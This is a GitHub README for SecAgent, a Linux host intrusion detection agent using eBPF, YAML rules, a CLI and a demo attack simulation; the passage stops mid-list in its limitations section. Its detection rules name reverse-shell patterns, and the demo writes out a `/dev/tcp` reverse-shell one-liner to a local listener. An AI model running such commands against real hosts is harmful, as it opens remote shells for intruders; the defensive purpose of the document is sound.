

# SecAgent

**A Linux host-based intrusion detection and response agent.** SecAgent runs as a systemd
daemon on Ubuntu/Debian servers. It watches process execution, network connections, file
integrity and authentication events in real time, evaluates each event against a YAML
policy of 24 detection rules mapped to MITRE ATT&CK, and records alerts in SQLite. Every
destructive response is gated behind an explicit two-key safety model: a rule can ask for
the offending process to be killed or the attacking IP to be blocked, but nothing runs
unless the operator has armed it. Process and network telemetry come from **eBPF**
(bpftrace on kernel tracepoints and kprobes). When eBPF isn't available, the agent falls
back automatically to `/proc` polling. You operate it with a CLI (`secagentctl`), and a
small local web dashboard is available for at-a-glance monitoring.

```
$ sudo secagentctl tail --alerts-only
16:20:02  ▲ HIGH      suspicious-shell-from-webserver  nginx (pid 2369) spawned bash (pid 2370): bash -c id >/dev/null; uname -a ...
16:20:04  ▲ CRITICAL  shell-network-connection  Shell bash (pid 2379) connected out to 127.0.0.1:4444
16:20:07  ▲ HIGH      privilege-escalation-to-root  rootshell (pid 2386) is running as root (euid 0) but its parent sh had euid 65534
16:20:10  ▲ HIGH      persistence-location-changed  /etc/cron.d/secagent-demo created (sha256 - -> 65dc5b81423c)
16:20:10  ▲ HIGH      outbound-port-scan  python3 (pid 2390) hit 15 distinct ports on 127.0.0.1 within 10.0s
16:20:13  ▲ HIGH      ssh-brute-force  5 failed SSH logins from 203.0.113.66 within 60.0s (last tried user 'root')  [block_ip: not executed: response disabled]
16:20:13  ▲ CRITICAL  uid0-account-created  New UID-0 account 'sysbackup' created (home /root, shell /bin/bash)
```

**Highlights**

- 4 monitors, 1 policy engine, 1 daemon, 1 CLI, 1 dashboard. **231 automated tests**:
  unit tests plus integration tests that run simulated attacks against the real kernel.
- eBPF sensors use kernel BTF, so they need no kernel headers. Each sensor runs a
  start-up **self-test canary** that proves it is live before it reports ready.
- PID-namespace-aware: the probes report correct PIDs inside containers and WSL2.
- File integrity monitoring survives atomic file replacement (`sed -i`, editors) and
  detects tampering that happened while the agent was stopped.
- Stateful threshold rules handle brute force, password spraying and port scans, with
  sliding windows, distinct-value counting, cooldowns and bounded memory.
- Active response (SIGKILL, nftables block) is **off by default**. It is guarded against
  PID reuse, never touches protected processes or allowlisted addresses, and is rate-limited.

---

## Contents

1. [Architecture](#architecture)
2. [Detection coverage](#detection-coverage)
3. [eBPF vs. fallback: what runs where](#ebpf-vs-fallback-what-runs-where)
4. [Privileges: what needs root and why](#privileges-what-needs-root-and-why)
5. [Installation](#installation)
6. [Usage: secagentctl](#usage-secagentctl)
7. [Dashboard](#dashboard)
8. [Writing policy](#writing-policy)
9. [Active response and its safety model](#active-response-and-its-safety-model)
10. [Demo script (interview walkthrough)](#demo-script-interview-walkthrough)
11. [Testing](#testing)
12. [Design decisions and trade-offs](#design-decisions-and-trade-offs)
13. [Limitations and what I'd add next](#limitations-and-what-id-add-next)
14. [Project layout](#project-layout)

---

## Architecture



Every monitor publishes `Event(type, source, data, timestamp)` objects onto a bounded
queue. A single dispatcher thread feeds them through the **AlertPipeline**:

```
event ─► store raw event ─► PolicyEngine.evaluate ─► Responder.handle ─► store alert ─► notify listeners
                                (all rules,              (records what it did,          (secagentctl tail,
                                 thresholds)              or why it refused)             dashboard)
```

| Component | File | Role |
|---|---|---|
| Event bus | `secagent/daemon/event_bus.py` | Thread-safe pub/sub. Publishing never blocks a monitor; on overflow, events are dropped and counted (visible in `status`). |
| Policy engine | `secagent/daemon/policy_engine.py` | Loads and validates YAML. Field matching with 20 operators. Stateful thresholds. `explain()` powers dry-runs. |
| Storage | `secagent/daemon/storage.py` | SQLite in WAL mode, so the CLI and dashboard can read while the daemon writes. Alerts are never pruned; raw events are capped. |
| Process monitor | `process_monitor.py`, `bpf/exec.bt` | Every exec: pid, ppid, uid/euid, parent euid, argv, ancestry, privilege transition. |
| File monitor | `file_monitor.py`, `inotify.py` | SHA-256 baseline, directory-level inotify, debounce, persisted baseline, periodic rescan. |
| Network monitor | `network_monitor.py`, `bpf/net.bt` | TCP connect / accept / listen, IPv4 + IPv6, attributed to a process. |
| Auth monitor | `auth_monitor.py` | sshd / sudo / su / useradd from auth.log (follows rotation) or journald. |
| Responder | `responder.py` | `kill_process` / `block_ip` behind the safety model. |
| Daemon | `agent.py`, `main.py`, `control.py` | Wiring, signals (SIGHUP = reload), control socket, housekeeping. |
| CLI | `secagent/cli/secagentctl.py` | The primary interface. |
| Dashboard | `secagent/dashboard/` | Read-only JSON API plus one static HTML page with no build step. |

## Detection coverage

The default policy (`secagent/policy/default_policy.yaml`, installed to
`/etc/secagent/policy.yaml`) contains these rules:

| Monitor | Rule | Sev. | ATT&CK | Detects |
|---|---|---|---|---|
| process | `suspicious-shell-from-webserver` | high | T1505.003 | nginx/apache/php-fpm/… spawning sh, bash, nc, socat (web shell / RCE) |
| process | `exec-from-temp-dir` | high | T1059 | binaries executed from /tmp, /var/tmp, /dev/shm |
| process | `privilege-escalation-to-root` | high | T1068 | euid becomes 0 across exec from a non-root parent (setuid-binary allowlist excluded) |
| process | `reverse-shell-cmdline` | critical | T1059.004 | `/dev/tcp/`, `nc -e`, `bash -i >&`, `socat exec:`, mkfifo pipes, python pty/socket one-liners |
| process | `exec-deleted-binary` | medium | T1070.004 | process running from a binary that was deleted from disk |
| file | `identity-file-changed` | high | T1098 | passwd, shadow, group, gshadow, sudoers(.d) |
| file | `ssh-config-or-keys-changed` | high | T1098.004 | /etc/ssh (recursive), /root/.ssh |
| file | `persistence-location-changed` | high | T1053.003 | crontab, cron.d, user crontabs, systemd units |
| file | `ld-preload-tampering` | critical | T1574.006 | /etc/ld.so.preload created or changed (userland rootkits) |
| file | `protected-binary-modified` | critical | T1554 | sudo, su, passwd, login, sshd, ssh, ps, ls, ss, netstat, bash replaced |
| network | `outbound-port-scan` | high | T1046 | ≥ 15 distinct ports on one host from one process in 10 s |
| network | `outbound-connection-burst` | medium | T1071 | ≥ 50 distinct endpoints from one process in 30 s (sweep / beaconing) |
| network | `outbound-suspicious-port` | medium | T1571 | outbound connections to 4444, 1337, 31337, 6667, 9001, … |
| network | `shell-network-connection` | critical | T1059.004 | a shell process opening a socket itself (`bash -i >& /dev/tcp/…`) |
| network | `bind-shell-listener` | high | T1571 | nc / socat / a shell listening on a port |
| auth | `ssh-brute-force` | high | T1110.001 | 5 failed SSH logins from one IP within 60 s |
| auth | `ssh-password-spray` | high | T1110.003 | 5 distinct usernames tried from one IP within 5 min |
| auth | `ssh-root-login` | medium | T1078.003 | successful SSH login as root |
| auth | `sudo-not-in-sudoers` | high | T1548.003 | sudo attempt by a user without sudo rights |
| auth | `sudo-auth-failure` / `su-to-root-failed` | medium | T1110 | failed sudo / su authentication |
| auth | `uid0-account-created` | critical | T1136.001 | a new account with UID 0 |
| auth | `account-created` | low | T1136.001 | any new local account |

Plus `watched-file-changed` (medium) for any paths you add to the file monitor yourself.

## eBPF vs. fallback: what runs where

I checked eBPF viability before writing any monitor code. **It works**: on stock Ubuntu
24.04 and on WSL2's Microsoft kernel (5.15, `CONFIG_BPF_SYSCALL`, `CONFIG_DEBUG_INFO_BTF`).
Each monitor still has a non-eBPF backend, chosen automatically. The reason for the
fallback is recorded in `secagentctl status`.

| Monitor | Primary backend | Fallback | Fallback trade-off |
|---|---|---|---|
| Process | **eBPF**: `tracepoint:sched:sched_process_exec` | `/proc` diff every 0.2 s | Can miss processes that start and exit between polls. The eBPF path caught 5/5 processes that lived ~1 ms (see `test_ebpf_catches_short_lived_process`). |
| Network | **eBPF**: kprobes `tcp_connect`, `inet_csk_accept` (kretprobe), `inet_listen` | `/proc/net/tcp{,6}` + `/proc/<pid>/fd` inode mapping every 0.5 s | Cannot see refused or very short connections, so a real port scan against closed ports is invisible (`test_ebpf_sees_scan_of_closed_ports` is eBPF-only). Sockets shared by several processes are attributed to the lowest PID. |
| File | **inotify** (directory watches) | full rescan every 2 s | Higher latency (~400 ms vs ~200 ms) and more I/O. |
| Auth | **auth.log tail** (follows rotation) | **journald** (`journalctl -f -o json`) | Equivalent; journald is for hosts without rsyslog. |

**Why bpftrace and not bcc?** bcc compiles C against kernel *headers* at runtime. Many
kernels don't ship a headers package, including WSL2's, and bcc's Python bindings tie
you to the distro's python3. bpftrace compiles against **BTF**
(`/sys/kernel/btf/vmlinux`), which every modern Ubuntu/Debian kernel exposes. The cost is
a subprocess boundary: probes print JSON tuples, and Python parses them. JSON output
mode also escapes every string, so a process deliberately named `a|b"c` cannot break or
spoof the parser.

Engineering details worth knowing (each is covered by a test):

- **Stack limit.** The BPF stack is 512 bytes, too small to hold both the filename and
  argv. `exec.bt` therefore uses *two probe blocks on the same tracepoint*, which are two
  BPF programs with two stacks. They run back-to-back on the same CPU, and userspace joins
  them by PID. argv is read from the new image's memory (`mm->arg_start..arg_end`), capped
  at 128 bytes in-kernel. Longer command lines are topped up from `/proc/<pid>/cmdline`.
- **PID namespaces.** bpftrace's `pid` builtin is the *root-namespace* PID. Inside a
  container or WSL2 that differs from what `/proc` and the rest of the system see. The
  probes read the PID at the namespace level bpftrace itself runs in
  (`task->thread_pid->numbers[level]`).
- **Attach race.** bpftrace announces "attached" ~200 ms *before* its kprobes are live.
  An early version of the network test was flaky because of this. Each eBPF monitor now
  fires a uniquely marked **canary** (a tagged `exec`, a loopback `connect`) and only
  declares itself ready once it has observed that canary through its own probe. The
  result shows in `status` as `self-test ok (102 ms)`.

## Privileges: what needs root and why

secagentd runs as **root** under systemd. That is normal for a host security agent, and
each need is specific:

| Capability | Why |
|---|---|
| eBPF (CAP_BPF, CAP_PERFMON, CAP_SYS_ADMIN) | loading tracepoint/kprobe programs |
| Read every `/proc/<pid>/fd`, `/proc/<pid>/status` | attributing sockets and credentials to processes of *all* users (fallback backends) |
| Read `/etc/shadow`, `/root/.ssh`, `/etc/sudoers` | hashing them for file integrity monitoring |
| Read `/var/log/auth.log` / the journal | auth monitoring (group `adm` would also do) |
| `kill(2)` any process; nftables | active response, only when explicitly enabled |

The systemd unit adds hardening that doesn't interfere with monitoring:
`ProtectSystem=full`, `ProtectHome=read-only` (the agent only *reads* those trees),
`NoNewPrivileges=yes`, `UMask=0077`. The control socket is mode `0600` and the database
directory is `0700`, because both expose host-wide telemetry.

**Without root** the agent still runs. Process and network fall back to `/proc` (seeing
only processes it can inspect), file integrity covers only readable files, and the
responder can only signal your own processes. The full test suite passes unprivileged,
with root-only tests skipped and their reasons printed.

## Installation

Requirements: Ubuntu 22.04+/Debian 12+ (or any systemd Linux), Python ≥ 3.11 and
`python3-venv`. eBPF needs a kernel with BTF (Ubuntu ≥ 20.10) and `bpftrace`, which the
installer adds.

```bash
git clone https://github.com/GhaithRouahi/secagent.git && cd secagent
sudo ./install.sh
```

What `install.sh` does, step by step:

1. Checks for root, Linux, and Python ≥ 3.11. Installs `python3-venv` if it's missing.
2. Installs `bpftrace` with apt if it's missing (skip with `--no-ebpf`) and warns if the
   kernel lacks BTF. Neither is fatal: the agent falls back to `/proc`.
3. Copies the package to `/opt/secagent/src` and builds a virtualenv at
   `/opt/secagent/venv` (`pip install .[dashboard]`). Symlinks `secagentd` and
   `secagentctl` into `/usr/local/bin`.
4. Creates `/etc/secagent/policy.yaml` from the default policy. **It never overwrites an
   existing policy**; new defaults go to `policy.yaml.new`. Then validates the policy.
5. Creates `/var/lib/secagent` (0700) for the SQLite database.
6. Installs `systemd/secagentd.service`, enables it, starts it, waits for the control
   socket, and prints `secagentctl status`.

| Path | Contents |
|---|---|
| `/etc/secagent/policy.yaml` | rules and monitor/response settings |
| `/var/lib/secagent/secagent.db` | alerts, recent raw events, FIM baseline |
| `/run/secagent/secagentd.sock` | control socket |
| `journalctl -u secagentd` | daemon logs |

Other options: `--no-start`; `--uninstall` (removes the service and program, keeps
config and data); `--uninstall --purge` (removes everything, including any nftables
blocks).

**Running from a checkout without installing** (development):

```bash
python3 -m venv .venv && .venv/bin/pip install -e '.[dev]'
sudo SECAGENT_DB=/tmp/sa.db SECAGENT_SOCKET=/tmp/sa.sock .venv/bin/secagentd
sudo SECAGENT_DB=/tmp/sa.db SECAGENT_SOCKET=/tmp/sa.sock .venv/bin/secagentctl status
```

## Usage: secagentctl

`secagentctl` is the primary interface. `alerts`, `show` and `policy list|test|validate`
read the database and policy file directly, so they **work with the daemon stopped**.
`status`, `tail` and `policy reload` talk to the daemon over its socket.

```console
$ sudo secagentctl status
● secagentd running  (pid 2271, up 1s, v0.1.0, host web01)
  policy     /etc/secagent/policy.yaml  (24 rules)
  database   /var/lib/secagent/secagent.db  (12 events stored)
  dashboard  http://127.0.0.1:8787
  response   disabled (alert-only)  firewall=nftables executed=0

MONITOR  BACKEND  STATE    EVENTS  NOTES
process  ebpf     running  8       self-test ok (2 ms)
file     inotify  running  0       76 files, 20 dirs watched
network  ebpf     running  4       self-test ok (102 ms)
auth     file     running  0       /var/log/auth.log (0/0 lines matched)

  ALERTS   CRITICAL 0  HIGH 0  MEDIUM 0  LOW 0   (total 0)
  PIPELINE published 12  processed 12  dropped 0  queue 0
```

```bash
sudo secagentctl alerts                          # newest 50
sudo secagentctl alerts --since 2h --severity high   # high and critical, last 2 h
sudo secagentctl alerts --rule ssh-brute-force --json
sudo secagentctl show 42                         # one alert with its full raw event
sudo secagentctl tail                            # live: every event (dim) + alerts
sudo secagentctl tail --alerts-only --severity high
sudo secagentctl tail --type process_exec        # live process-exec feed
secagentctl policy list                          # rules (as loaded in the daemon if running)
secagentctl policy validate                      # lint the policy file
sudo secagentctl policy reload                   # or: systemctl reload secagentd (SIGHUP)
```

`--since` accepts `30s`, `15m`, `2h`, `7d` or an ISO timestamp. `--severity` is a minimum.

**Dry-run any rule against a hand-written event.** Fields are `key=value`, and values
are parsed as JSON when possible:

```console
$ secagentctl policy test suspicious-shell-from-webserver \
      event_type=process_exec parent_name=nginx child_name=bash pid=4242 ppid=880 "cmdline=bash -i"
rule suspicious-shell-from-webserver  HIGH  action=alert
event process_exec {"parent_name": "nginx", "child_name": "bash", "pid": 4242, "ppid": 880, "cmdline": "bash -i"}

  ✓ event_type eq 'process_exec'                              actual: "process_exec"
  ✓ parent_name in ['nginx', 'apache2', 'httpd', 'lighttpd',… actual: "nginx"
  ✓ child_name in ['sh', 'bash', 'dash', 'zsh', 'ksh', 'csh'… actual: "bash"

MATCH  → would raise: nginx (pid 880) spawned bash (pid 4242): bash -i
```

```console
$ sudo secagentctl show 92
Alert #92  HIGH  privilege-escalation-to-root
  time     2026-10-19 16:24:31
  message  rootsleep (pid 2910) is running as root (euid 0) but its parent sh had euid 65534
  action   alert
  source   process / process_exec

  event data
    pid                    2910
    uid                    65534
    euid                   0
    parent_euid            65534
    exe                    /tmp/secagent-it-63s9_l_j/rootsleep
    ancestors              ["sh", "python", "bash", "bash", "Relay(1234)", "SessionLeader", "init-systemd(Ub"]
    privilege_escalation   True
    start_time             34566
    backend                ebpf
    ...
```

Exit codes: `0` ok, `1` error / no match (`policy test`), `2` invalid policy,
`3` daemon not running, `4` permission denied.

## Dashboard

secagentd serves a single-page dashboard on **http://127.0.0.1:8787**. It binds to
localhost only by design. From another machine, use `ssh -L 8787:127.0.0.1:8787 server`.
It's plain HTML/CSS/JS with no build step, polling a small read-only JSON API every 1.5 s:

- severity tiles, total alerts, stored events
- alerts per minute over the last hour, stacked by severity (hover for counts)
- monitor health with backends and event counts, and the top rules
- a live alert feed showing each response outcome; click a row to see the raw event JSON

API: `GET /api/status`, `/api/alerts?after_id=&severity=&limit=`, `/api/events`,
`/api/stats?hours=&bucket=`. To browse an existing database without the daemon:
`python -m secagent.dashboard.api --db /var/lib/secagent/secagent.db`.
Disable it with `secagentd --no-dashboard`.

## Writing policy

```yaml
rules:
  - id: suspicious-shell-from-webserver
    description: A network-facing service spawned a shell
    mitre: T1505.003
    severity: high                    # low | medium | high | critical
    action: alert                     # alert | kill_process | block_ip
    match:
      event_type: process_exec
      parent_name: [nginx, apache2]   # list   -> any of
      child_name: [sh, bash, nc]
      exe: {not_startswith: /usr/}    # dict   -> operators (all must hold)
    message: "{parent_name} (pid {ppid}) spawned {child_name} (pid {pid}): {cmdline}"

  - id: ssh-brute-force
    severity: high
    match: {event_type: auth_failure, service: sshd}
    threshold:                        # stateful: alert on the Nth match within the window
      count: 5
      window: 60                      # seconds (event time, i.e. log time for auth)
      group_by: [src_ip]              # independent counters per source
      distinct: user                  # optional: count distinct values instead of events
      cooldown: 300                   # suppress repeats for this group (default = window)
```

**Operators:** `eq ne in not_in contains not_contains startswith not_startswith endswith
glob not_glob regex not_regex gt gte lt lte cidr not_cidr exists`.

**Semantics** (each is unit-tested):

- All conditions are ANDed. Every matching rule fires, so overlapping rules can produce
  more than one alert.
- **A missing field fails every operator except `exists: false`.** A rule never fires on
  data it can't see. This holds even for negative operators like `not_in`.
- List-valued event fields (e.g. `ancestors`): positive operators match if *any*
  element matches; negative operators require *every* element to pass.
- Numbers compare numerically across types (`"4444"` equals `4444`).
- Invalid policies (unknown operator, bad regex, duplicate id, unknown severity, …)
  are rejected with a message naming the rule. The daemon refuses to start on an
  invalid policy, and `reload` keeps the old policy if the new one is invalid.
- Threshold state is capped at 10,000 groups per rule (LRU), so an attacker spraying
  source IPs cannot exhaust the agent's memory.

**Event fields** available to rules:

| Event type | Fields |
|---|---|
| `process_exec` | pid, ppid, uid, euid, parent_euid, child_name, parent_name, exe, argv, cmdline, ancestors, privilege_escalation, exe_deleted, start_time |
| `file_change` | path, change (created/modified/deleted/permissions), group, old/new_sha256, old/new_hash, old/new_mode, old/new_uid, size, detected_at_startup |
| `net_connect` | pid, process_name, src_ip, src_port, dst_ip, dst_port, dst, family |
| `net_accept` / `net_listen` | pid, process_name, local_ip, local_port, (src_ip, src_port) |
| `auth_failure` / `auth_success` / `auth_invalid_user` | user, src_ip, src_port, method, invalid_user, service, host |
| `auth_sudo` / `auth_su` | user, target_user, command, tty, success, reason, attempts |
| `account_created` | user, uid, gid, home, shell |

Monitor settings (watched paths, backends, intervals) live in the same file under
`monitors:`. Changing them requires a restart; rule and response changes apply on reload.

## Active response and its safety model

Two rules in the default policy request actions: `reverse-shell-cmdline` (`kill_process`)
and `ssh-brute-force` (`block_ip`). **By default nothing is executed.** The alert records
`not executed: response disabled`, so you can see exactly what *would* have happened.

```yaml
response:
  enabled: false              # master switch - both this AND the rule's action are required
  dry_run: false              # run every safety check, log the action, execute nothing
  block_duration: 3600        # nftables entries expire on their own
  max_actions_per_minute: 10  # circuit breaker
  allowlist: []               # never block these; loopback is always allowlisted
  protected_processes: [systemd, sshd, secagentd, ...]
```

| Guard | kill_process | block_ip |
|---|---|---|
| Two-key arming (`response.enabled` **and** a rule action) | ✓ | ✓ |
| Dry-run mode | ✓ | ✓ |
| **PID-reuse protection**: the target's kernel start time must equal the one captured at detection | ✓ | |
| Never PID ≤ 1, kernel threads, the agent itself or any of its ancestors, protected names | ✓ | |
| Never loopback or an allowlisted network; invalid addresses rejected | | ✓ |
| Isolated: a dedicated `inet secagent` nftables table; `nft delete table inet secagent` undoes everything | | ✓ |
| Auto-expiry via nftables set timeouts | | ✓ |
| Rate limit / circuit breaker | ✓ | ✓ |
| Every decision (executed, refused, failed) is stored on the alert | ✓ | ✓ |

Recommended rollout: `enabled: true, dry_run: true` for a while, review the `dry-run:`
outcomes with `secagentctl alerts`, then set `dry_run: false`.

## Demo script (interview walkthrough)

About 5 minutes. Everything is simulated and safe: artifacts live in a temp dir or are
removed on exit, "attacker" traffic only goes to 127.0.0.1, and log lines are injected
with `logger(1)`.

**0. Setup (once):** `sudo ./install.sh`. On a laptop, a WSL2 Ubuntu or an Ubuntu VM
works; see the WSL note below.

**1. Show the agent is healthy and which sensors it uses.**

```bash
sudo secagentctl status
```

Talking points: eBPF for process and network, self-test canaries, inotify for files,
auth.log for authentication, and the response mode is alert-only.

**2. Open the live views.** Terminal 1:

```bash
sudo secagentctl tail --alerts-only
```

And a browser at **http://127.0.0.1:8787**.

**3. Attack the box.** Terminal 2:

```bash
sudo ./demo/attack_simulation.sh            # all 7 steps, ~3 s apart
sudo ./demo/attack_simulation.sh revshell   # or one step: webshell revshell privesc
                                            # persistence portscan bruteforce backdoor
```

| Step | What it simulates | Alerts you should see |
|---|---|---|
| `webshell` | a process named `nginx` runs `bash -c 'id; uname -a'` | HIGH `suspicious-shell-from-webserver`, HIGH `exec-from-temp-dir` |
| `revshell` | `bash -i >& /dev/tcp/127.0.0.1/4444` to an `nc -l` "C2" | CRITICAL `reverse-shell-cmdline`, CRITICAL `shell-network-connection`, MEDIUM `outbound-suspicious-port`, HIGH `bind-shell-listener` |
| `privesc` | uid 65534 runs a setuid-root binary from /tmp | HIGH `privilege-escalation-to-root` (uid 65534 → euid 0) |
| `persistence` | a file dropped into /etc/cron.d, then modified | HIGH `persistence-location-changed` (created, then old→new SHA-256) |
| `portscan` | one process hits 40 ports (20 open, 20 closed) | HIGH `outbound-port-scan` |
| `bruteforce` | 6 sshd "Failed password" lines from 203.0.113.66 | HIGH `ssh-brute-force` on the **5th** line, action `block_ip` → "not executed" |
| `backdoor` | a `useradd` line for a UID-0 account | CRITICAL `uid0-account-created` |

**4. Investigate like an analyst.**

```bash
sudo secagentctl alerts --since 10m
sudo secagentctl show <ID of the privilege-escalation alert>   # uid/euid/parent chain
secagentctl policy test ssh-brute-force event_type=auth_failure src_ip=1.2.3.4 service=sshd
```

**5. (Optional) Arm active response and show the kill.**

```bash
sudo sed -i 's/^  enabled: false /  enabled: true  /' /etc/secagent/policy.yaml
sudo secagentctl policy reload
sudo ./demo/attack_simulation.sh revshell bruteforce
sudo secagentctl alerts --since 1m      # "killed pid N (bash)", "blocked 203.0.113.66 for 3600s"
sudo nft list table inet secagent       # the block, with its expiry countdown
# put it back:
sudo sed -i 's/^  enabled: true  /  enabled: false /' /etc/secagent/policy.yaml
sudo secagentctl policy reload && sudo nft delete table inet secagent
```

Expected `tail` output from a real run (`NO_COLOR` capture):

```
16:20:02 [HIGH] exec-from-temp-dir  Executed from temp dir: /tmp/secagent-demo.t9XioZ/nginx (pid 2369, uid 0, parent bash)
16:20:02 [HIGH] suspicious-shell-from-webserver  nginx (pid 2369) spawned bash (pid 2370): bash -c id >/dev/null; uname -a >/dev/null; sleep 2; true
16:20:04 [HIGH] bind-shell-listener  nc (pid 2375) is listening on 127.0.0.1:4444
16:20:04 [CRITICAL] reverse-shell-cmdline  Reverse shell pattern in pid 2378 (bash): bash -c bash -i >& /dev/tcp/127.0.0.1/4444 0>&1 & ...  [kill_process: not executed: response disabled (set response.enabled: true)]
16:20:04 [MEDIUM] outbound-suspicious-port  bash (pid 2379) connected to 127.0.0.1:4444 (suspicious port)
16:20:04 [CRITICAL] shell-network-connection  Shell bash (pid 2379) connected out to 127.0.0.1:4444
16:20:07 [HIGH] exec-from-temp-dir  Executed from temp dir: /tmp/secagent-demo.t9XioZ/rootshell (pid 2386, uid 65534, parent sh)
16:20:07 [HIGH] privilege-escalation-to-root  rootshell (pid 2386) is running as root (euid 0) but its parent sh had euid 65534
16:20:10 [HIGH] persistence-location-changed  /etc/cron.d/secagent-demo created (sha256 - -> 65dc5b81423c)
16:20:10 [HIGH] outbound-port-scan  python3 (pid 2390) hit 15 distinct ports on 127.0.0.1 within 10.0s
16:20:11 [HIGH] persistence-location-changed  /etc/cron.d/secagent-demo modified (sha256 65dc5b81423c -> e26ae1a23e42)
16:20:13 [HIGH] ssh-brute-force  5 failed SSH logins from 203.0.113.66 within 60.0s (last tried user 'root')  [block_ip: not executed: response disabled (set response.enabled: true)]
16:20:13 [CRITICAL] uid0-account-created  New UID-0 account 'sysbackup' created (home /root, shell /bin/bash)
16:20:15 [HIGH] persistence-location-changed  /etc/cron.d/secagent-demo deleted (sha256 e26ae1a23e42 -> -)
```

And with response armed (real run): the reverse-shell process exited with status 137
(SIGKILL), and `nft list set inet secagent blocklist4` showed
`elements = { 198.51.100.23 timeout 1h expires 59m57s }`.

**WSL2 note.** Everything above was developed and verified on WSL2 Ubuntu 24.04 with
systemd enabled, including eBPF. WSL stops a distro when no `wsl.exe` session is
attached, so keep a WSL terminal open during the demo. The service restarts
automatically on the next start, because it is enabled. The dashboard is reachable from
the Windows browser at `http://localhost:8787` (WSL forwards localhost).

## Testing

```bash
sudo ./run_tests.sh              # everything, including eBPF / setuid / kill / nftables tests
./run_tests.sh                   # unprivileged: root-only tests are skipped with reasons
./run_tests.sh unit              # or: make test-unit
./run_tests.sh integration
```

`run_tests.sh` creates a virtualenv if needed, prints the environment (kernel, user,
bpftrace version), runs pytest verbosely and ends with an `ALL TESTS PASSED` /
`TESTS FAILED` banner. Latest results, on Ubuntu 24.04 (kernel 5.15, WSL2):

| Run | Result |
|---|---|
| `sudo ./run_tests.sh` | **231 passed** in 61 s |
| `./run_tests.sh` (uid 1000) | **213 passed, 18 skipped** (eBPF/root-only), in 31 s |

**Unit tests** (`tests/unit/`) cover:

- **Policy engine:** every operator, missing fields, multiple matches, validation
  errors, threshold boundaries, window expiry, cooldown, distinct counting, bounded
  state, reload.
- **Parsers:** `/proc/<pid>/stat` with hostile process names, `/proc/net/tcp` IPv4/IPv6
  hex addresses, inotify structs, bpftrace records, 18 auth.log line shapes, syslog
  year rollover.
- **Process diffing** against a *fake /proc tree*: fork-without-exec, exec-in-place,
  PID reuse.
- **Responder:** every safety guard, with a fake `kill()` and a recording firewall.
- **CLI and dashboard API.**

**Integration tests** (`tests/integration/`) start real monitors (or the whole daemon),
cause real behaviour on the host, and assert that the expected alert appears in SQLite
within a timeout:

| Module | Simulated attack → assertion |
|---|---|
| process | script named `nginx` spawns `bash` → `suspicious-shell-from-webserver`; binary run from /tmp; `/dev/tcp` cmdline; setuid-root binary run by uid 65534 → euid 0 flagged; 1 ms processes caught by eBPF; benign process observed but not alerted. Each runs on **both** backends. |
| file | append uid-0 account to watched passwd (old/new hash asserted); atomic `rename()` replacement, with the watch surviving it; real `sed -i`; `authorized_keys` planted in a new subdirectory; `ld.so.preload` creation; chmod and delete; `touch` stays silent; tampering while the agent is stopped is detected at startup. |
| network | separate process connects to 20 local listeners → scan heuristic (both backends); scan of *closed* ports (eBPF only); bash `/dev/tcp` connection; C2 port 4444; `nc -l` bind shell; single benign connection not alerted. |
| auth | 4 failures → no alert, 5th → alert, 6th–10th → suppressed by cooldown; per-source counters; no history replay; logrotate; UID-0 useradd. The **real rsyslog pipeline** (`logger` → `/var/log/auth.log`) and the **journald** backend are tested end to end. |
| response | real SIGKILL of a detected implant (exit −9); the same detection with response disabled leaves the process alive; real nftables block with an expiry, then cleanup. |
| daemon | starts `secagentd` as a subprocess with all four monitors, runs four attacks, verifies via `secagentctl alerts/show/status`, the live `tail` stream and the dashboard HTTP API, reloads policy, sends SIGTERM (exit 0, socket removed), and confirms an invalid policy refuses to start. |

## Design decisions and trade-offs

- **Python + bpftrace instead of a C/Go agent with libbpf.** I optimised for
  readability, testability and how much could be built and proven in the time available.
  The kernel-side logic lives in two small `.bt` files that are easy to review. The cost
  is per-event Python overhead. On a busy box (thousands of execs per second) the
  bounded bus would start dropping events, which `status` reports, rather than slowing
  the host. The production answer is CO-RE libbpf with in-kernel filtering (see next
  section).
- **Directory-level inotify, not file-level.** Watching a file's inode loses it on the
  first atomic replace (`passwd`, `sed -i`, vim). Watching the parent directory, with a
  debounce and then a re-hash, costs a little filtering and is correct.
- **Hash comparison over event trust.** inotify only marks a path dirty. The alert is
  raised by comparing SHA-256 + mode + owner against the persisted baseline. A `touch`
  doesn't alert, a revert-to-original doesn't alert, and changes made while the agent
  was stopped are caught at startup.
- **Thresholds in the engine, not in monitors.** Brute force, password spray, port scan
  and beaconing are one generic `threshold` feature (sliding window + group_by +
  distinct + cooldown), configured in YAML rather than hard-coded per detector.
- **Event time, not arrival time, for windows.** Auth thresholds use the log timestamp,
  so a delayed or batched log delivery doesn't distort rates.
- **Missing field ⇒ no match.** This is a deliberate safety choice. It prevents
  `not_in`-style rules from firing on events from a different monitor, at the cost of
  needing `exists: false` to express "field absent".
- **SQLite + WAL, one writer.** There's no external dependency, the CLI can query alerts
  with the daemon stopped, and readers never block the writer. Raw events are capped;
  alerts are kept.
- **The CLI is the product; the dashboard is a view.** All control (reload, status,
  live tail) goes through a root-only Unix socket. The dashboard is read-only and binds
  to localhost.
- **Response is opt-in and auditable.** A detection agent that kills the wrong process
  (PID reuse) or locks out the admin (no allowlist) is worse than none. Hence the
  two-key arming, start-time verification, allowlists, an isolated nftables table and
  auto-expiry.

## Limitations and what I'd add next

Honest gaps, roughly in priority order:

1. **Ship CO-RE libbpf programs** (C + a small loader) instead of bpftrace. This adds
   in-kernel filtering, ring buffers, full-length argv, and removes the subprocess.
2. **Correlation across monitors.** For example, "login succeeded from an IP that just
   brute-forced", or "a process spawned by a web server then made an outbound
